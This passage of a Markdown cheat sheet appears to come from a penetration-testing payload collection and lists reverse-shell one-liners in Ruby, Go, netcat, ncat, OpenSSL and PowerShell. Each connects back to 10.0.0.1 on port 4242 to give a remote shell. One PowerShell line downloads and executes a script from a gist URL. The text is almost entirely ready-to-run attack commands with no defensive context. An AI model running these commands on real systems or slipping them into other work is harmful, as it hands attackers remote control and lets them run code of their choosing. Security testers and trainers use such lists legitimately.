     NOTE: Windows only
    ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

### Golang

    echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

### Netcat Traditional

    nc -e /bin/sh 10.0.0.1 4242
    nc -e /bin/bash 10.0.0.1 4242
    nc -c bash 10.0.0.1 4242

### Netcat OpenBsd

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f

### Ncat

    ncat 10.0.0.1 4242 -e /bin/bash
    ncat --udp 10.0.0.1 4242 -e /bin/bash

### OpenSSL

Attacker:

    user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
    user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
    or
    user@attack$ ncat --ssl -vv -l -p 4242
    
    user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s

### Powershell

    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

    powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
